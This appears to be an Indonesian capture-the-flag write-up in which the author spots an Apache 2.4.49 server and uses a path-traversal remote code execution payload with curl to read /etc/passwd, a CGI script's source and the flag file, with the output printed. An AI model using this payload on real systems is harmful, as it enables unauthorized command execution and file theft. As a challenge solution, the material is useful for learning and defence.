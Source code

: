 ## Free Boostrap Template

### Deskripsi

Sebuah template boostrap 5 gratis tis tis untuk kita semua, silah kan copas source codenya dan telusuri manfaatnya. [http://103.147.32.214:9003/](http://103.147.32.214:9003/)

### Solusi

setelah ditelusuri, terdapat 1 link dengan title [Click Me](http://103.147.32.214:9003/cgi-bin/blog.pl)yang mengarah pada halaman **Internal Server Error** dan jika di view source terdapat petunjuk

```
You need to read the blog.pl source code
to find out the flag location OR just use
your imagination....
```

point nya harus membaca source code dari file `blog.pl`, setelah dilihat-lihat respon dari server, yang menarik adalah server Apache yang digunakan

```
Server: Apache/2.4.49 (Unix)

```

Googling sedikit dengan keyword `apache 2.4.49 exploit``` hasilnya cukup untuk memberikan informasi apa yang harus dilakukan.


```
curl http://103.147.32.214:9003/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh -d 'C|echo;cat /etc/passwd'
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
```

selanjutnya membaca source code dari `blog.pl`

```
curl http://103.147.32.214:9003/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh -d 'C|echo;cat /usr/local/apache2/cgi-bin/blog.pl'

#!/usr/bin/perl
print "Content-type: text/html\n\n";
print "you can find the flag under apache2 directory";
```

langkah terakhir hanya membaca flagnya

```
curl http://103.147.32.214:9003/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh -d 'C|echo;cat /usr/local/apache2/this_is_real_flag'
lastctf{r3m0t3_c0d3_3x3cut10n_us1n9_4p4ch3_vuln3r4b1l1ty}
```